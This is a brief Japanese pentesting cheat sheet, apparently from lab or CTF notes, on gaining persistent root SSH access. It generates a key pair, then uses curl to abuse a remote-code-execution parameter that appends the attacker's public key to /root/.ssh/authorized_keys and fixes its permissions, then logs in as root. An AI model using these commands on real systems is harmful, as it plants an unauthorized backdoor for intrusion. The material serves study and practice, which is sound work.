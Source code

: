 ## ## SSHKeyの作成
### ### uploadできる場合
1. kaliでsshキーペアを作成する。
```sh
ssh-keygen -f hoge
```

2. ターゲットマシンにアップロードもしくは、echoコマンドでファイルを作成する。
```sh
# RCEがある場合
curl -g "http://127.0.0.1:8000/?ippsec.run[echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAA(...)' >> /root/.ssh/authorized_keys]"

curl -g "http://127.0.0.1:8000/?ippsec.run[chmod 600 /root/.ssh/authorized_keys]"

# その他
zip化してbase64でechoを使用してもいいし、ファイルアップロードの機能があればそれ経由でやっても問題ないと思う。
```

3. 接続
```sh
ssh -i hoge root@IP_or_Domain
```
